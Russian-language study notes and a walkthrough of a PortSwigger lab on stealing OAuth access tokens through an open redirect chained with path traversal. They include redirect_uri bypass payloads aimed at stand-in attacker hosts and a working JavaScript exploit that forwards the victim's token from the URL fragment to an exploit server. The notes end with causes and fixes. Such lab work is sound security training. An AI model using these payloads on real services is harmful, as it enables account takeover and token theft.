еще немного теории
в лабе уязвимости:   
# Open-Redirect+Path-Traversal


Это **фронт-канальная атака**, где токен "протекает" через браузер пользователя

`redirect_uri` — это тот параметр, который говорит сер­веру авто­риза­ции, на какой URL ему нуж­но нап­равить токен пос­ле того, как поль­зователь вой­дет через соци­аль­ную сеть и сог­ласит­ся дать дос­туп к сво­им ресур­сам.

в парамет­ре `redirect_uri` дол­жен быть вай­тлист ссы­лок, на которые мож­но редирек­тить

Ес­ли вай­тлис­та нет, это соз­дает прос­транс­тво для манипу­ляций. Зло­умыш­ленник может взять ссыл­ку из пер­вого эта­па и заменить в ней `redirect_uri` под­кон­троль­ным ему сер­висом, выложить ее где‑нибудь в соци­аль­ных сетях и украсть токен пос­ле того, как кто‑нибудь уже авто­ризо­ван­ный в Discord и в Midjourney перей­дет по ней. (https://xakep.ru/2024/09/13/oauth-vuln-chains/)


#### Ошибоки redirect_uri validation

в цепочке сервер может использовать белые списки адресов на которые сервер может отвечать (redirect_url), но даже и такие системы можно обойти.

----
при аудите с OAUTH нужно пробовать менять redirect_uri и смотреть реакцию-
например валидатор на сервере возможно проверяет только начальный путь, чтобы убедиться что начинается с домена из белого списка, и можно подменить то что идет далее,
пример
```http
https://default-host.com &@foo.evil-user.net#@bar.evil-user.net/

Символ `#`якорь (fragment)**. Всё после него не отправляется на сервер
# но некотор не игнорят это # и запрос валидный после

&@ - некот библиот могут игноривать все что перед символом &@
некотор могут блокировать &@ но не блокировать # 
эта ссылка - это универсал пейлоад
```
или так:   через &redirect_uri
```http
https://oauth-authorization-server.com/?client_id=123&redirect_uri=client-app.com/callback&redirect_uri=evil-user.net
```
или так: через localhost
```http
https://localhost.evil-user.net

URI перенаправления, начинающийся с `localhost`, может быть случайно разрешен
```

также изменяя любые параметры в URL можно изменить логику запросов так, что localhost.evil не будет заблокирован!

----
также если не получается подменить redirect_url то - если возможность проверить, можно ли как-либо перенаприпривить redirect_url не на свой хост - а на одну из страниц сайта, и если это возможно - то есть вероятность найти на этой странице уязвимость которая позволила бы извлечь данные перенапрвленные на нее!

---
-----
♻️🔶♻️🔶♻️🔶♻️🔶♻️🔶♻️🔶♻️🔶♻️🔶♻️🔶♻️🔶♻️🔶
# Лаборатория: Краже токенов доступа OAuth через открытое перенаправление
https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect

нужно украсть токен доступа к учетке админитратора

нужно подготовить эксплойт и отправить его жертве

(жертва откроет ссылку сброшенную ей)

эксплойт должен перенаправить мне токен доступа

потом нужно использовать этот токен для входа в ак

----

# разведка/логика работы
нашел запрос который при исполнении в браузере берет мои куки данные сайта и отправляет запрос на получение токена доступа



остнется только украсть токен и одставить в мой валидый запрос вот сюда:



и потом используя этот токен можно войти в аккаунт



**можно пробовать подменить редирект тут**
GET /auth?client_id=vul2o5rfwp7mwvedsomvy&redirect_uri=https://0a02000e0400ba5182fc8d74004f009f.web-security-academy.net/oauth-callback&response_type=token&nonce=-1162128522&scope=openid%20profile%20email HTTP/1.1

-----

редирект позволяет подставить свой URL но проблема
редирект # блокирует передачу токена в сам URL



#### СМЫСЛ - ЗАЩИТА в виде # решетки

  **то есть токен приходит в ответе OAuth-сервера.** Мы видим его в **заголовке `Location`** HTTP-ответа. 
  
  этот ответ **перехватывается Burp** (или  exploit-сервером), потому что он - часть HTTP-диалога между браузером жертвы и OAuth-сервером

НО КОГДА ЖЕРТВА ИСПОЛНИТ МОЙ ЭКСПЛОЙТ = ТО ВЫПОЛНИТСЯ РЕДИРЕКТ НА АДРЕСС  https://0a02000e0400ba5182fc8d74004f009f.web-security-academy.net/oauth-callback  ДО # РЕШЕТКИ, ТО ЧТО ПОСЛЕ РЕШЕТКИ - В РЕДИРЕКТ НЕ ПОЙДЕТ!!! 

ПОЭТОМУ ОТВЕТ НА МОЙ ХОСТ ПРИЙДЕТ ПРОСТО ОТВЕТ НО БЕЗ ТОКЕНА!

---------

получается - что нужно не просто редирект сделать, но и чтобы сам запрос произошел не на его странице - а на моей странице ЧТОБЫ полностью перехватить весь ответ целиком, включаю код страницы!
и отправить уже потом это все целиком на мой хост!

----

типо как копию сайта сделать ? и перенаправить на нее? или как то так сделать чтобы его браузер нашел в данных нужный мне access_token и передал в редирект;;;;;

-----

# решение----------------------------

есть сайт, где реализована OAuth 
перехватил запрос который привязывает мою соц сеть к сайту,
этот запрос возвращает код доступа после привязки!

я взял этот запрос и подменил в нем редирект на свой, но сервер не принял мой произвольный URL^



это страница поста


изменил путь - сервер позволил мне подставить путь к посту
и также вернул код токен-доступа



теперь проверим,  проверяется ли на странице поста редиректы?
подставил свой редирект



и удалось открыть страницу https://0ada0046049f5da4813f341500870047.web-security-academy.net/post?postId=1#access_token=4OV-v4iHk3510SDLKTPxu3RG_i7kT3P6Gw3gxOiZZvD&expires_in=3600&token_type=Bearer&scope=openid%20profile%20email

внутри которой есть токен в ссылке уже!

на странице поста не  получилост подставить свой URL так как по логике там принимается только цифры

но запрос на получение NEXT PAGE позволяет прописать любой URL и сервер не отвергает его , 



значит и атаку можно будет построить на этом!

я подставил этот путь на тот запрос который возкращает нам токен доступа (этот запрос позже будем отправлять жертве)



в самом начале когда я пытался подменить тут адрес в редиректе - то сервер блокировал его, а тепеь после поставновки пути (как при переходе на страницу блога) сервер не проверяет сторонние адреса!

теперь нужно делать пейлоад эксплойт который нужно будет доставлять жертве карлосу )

подменил ссылку на свой сайт 
и открыл этот поддерльный запрос!
и получил в отвере преход на свою страницу
и получил в ответе и токен и редирект на мою страницу! браво!
теперь осталось мне сохранить всю эту активность которая происходит на моей странице!



URL запроса выше я поместил в скрипт
```html

hello body!
<script>
if (!document.location.hash) {
window.location = 'вот тут URL запроса'
} else {
window.location = '/?'+document.location.hash.substr(1)      
}
</script>

------------------------------


<script>
if (!document.location.hash) {
window.location = 'https://oauth-0a0d003b04365dad81cf329002e300b4.oauth-server.net/auth?client_id=xl2rndcg4w70guoqnkiua&redirect_uri=https://0ada0046049f5da4813f341500870047.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a62004004185d268109335a01350072.exploit-server.net/exploit&response_type=token&nonce=-908509509&scope=openid%20profile%20email'
} else {
window.location = '/?'+document.location.hash.substr(1)      
}
</script>
```

этот скрипт я отправил жертве
код сработал в браузере цели и отправил запрос серверу сайта и тот вернул зараженный редирект на мой сайт!
и на моем сайте ждал уже скрипт (что выше я написал), это скрипт своровал данные параметров (включая токен!)
ну и в логах сайта я вижу теперь токен этот!

-----

теперь я подставил токен в запрос который авторизирует меня по токену доступа, и я привязал свою соц сеть к аккаунту админа которому был доставлен мой эксплойт!



----------

# ВыводыЭ

это **фронт-канальная атака**, где токен "протекает" через браузер пользователя

токен доступа к аккаунту нужно было получить
был редирект 
подменить редирект не получалось из-за валидации сервера
(но это на главной странице где происходит тогика OAuth)


 была небольшая некритичная уязвимость - **Path Traversal** в параметре redirect_uri OAuth сервиса которая сама по себе всего-лишь позволяла гулять по страницам из разных запросов (что само по себе не опасно)

но на одной из страниц (просто просмотр страниц блога) я заметил что можно было спокойно подставлять свой URL и сервер не блокировал эту возможность, что само по себе и не нужно было, так как это просто общедоступная информация.

и я в основном запросе (который возвращает нам токен доступа)  подменил продолжение пути на путь, как при просмотре страниц блога с добавлением перехода по моему URL. ПРОВЕРИЛ, и теперь сервер не заметил что я добавил свой url после его валидного URL 
и получил 200 ответ!

теперь я могу контролировать редирект, и редирект направляет на мой сайт!

но не показывает токен в URL запросе так так как токен отрезан # решеткой. поэтому на своем сайте, на который ведет URL нужно сделат скрипт который из браузера жертвы возьмет все параметры ответа.

и потом в логах сайта я могу посмотреть, и увидеть нужны нам токен доступа!

(среди истории прогулок по сайту) есть запрос который использует этот токен для связывания с мои аккаунтом в соц сети. подствил в него токен и получил полный доступ к чужому аккаунту!

 --------

# причины успеха
- **Слабая валидация ==redirect_uri==**: Разрешался ==../== но не проверялся конечный URL после редиректа
    
- **Ошибка в логике OAuth flow**: Сервер OAuth не проверял, что конечный URL принадлежит доверенному домену

*  **параметр** **state** не проверялся при привязке аккаунтов - слепо верил только токену! но без проверки кто начал сессию это вообще. то есть нужна привязка токена к конкретному клиенту
* Токен передаётся через **фрагмент URL**


- нужно было использовать только вайт лист доменов
- проверять направления редиректов
- токены можно обрабатывать только на сервере и передавать через безопасный канал его
- разрешить редиректы только на внутренние URL
- - Запрет абсолютных URL в параметрах


